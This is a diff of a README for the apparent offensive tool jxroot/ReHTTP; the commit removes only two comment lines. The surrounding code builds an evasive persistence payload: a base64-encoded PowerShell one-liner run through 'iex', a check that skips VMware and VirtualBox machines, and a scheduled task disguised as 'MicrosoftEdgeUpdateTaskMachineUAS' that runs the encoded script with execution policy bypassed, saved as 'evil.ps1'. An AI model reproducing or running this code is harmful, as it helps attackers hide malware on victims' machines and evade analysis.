

Before and after one commit to jxroot/ReHTTP, a Markdown page: README.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

```diff
--- a/README.md
+++ b/README.md
@@ -122,7 +122,6 @@ $j = [PSCustomObject]@{
 $oneline = "[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String(('" + $j + "' | ConvertFrom-Json).Script)) | iex"
 $c = [convert]::ToBase64String([System.Text.encoding]::Unicode.GetBytes($oneline))
 $template = '
-#check Anti vm (vmware \ virtual box)
 $VM=get-wmiobject win32_computersystem |select -ExpandProperty Model
 if(($VM -NotLike "*VMware*") -and ($VM -NotLike "VirtualBox")){
 $action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument " -NoLogo -NonInteractive -NoProfile -ExecutionPolicy Bypass -Encoded  "'+ $c + '
@@ -133,7 +132,6 @@ Register-ScheduledTask -TaskName "MicrosoftEdgeUpdateTaskMachineUAS" -TaskPath "
 Start-ScheduledTask -TaskName "MicrosoftEdgeUpdateTaskMachineUAS"
 }
 '
-#Out-File -Encoding Default evil.ps1
 New-Item -Path . -Name evil.ps1 -Value $template </code></pre>
 <h2 id="operating-systems-tested">💻 Operating Systems Tested</h2>
 <ul>
```
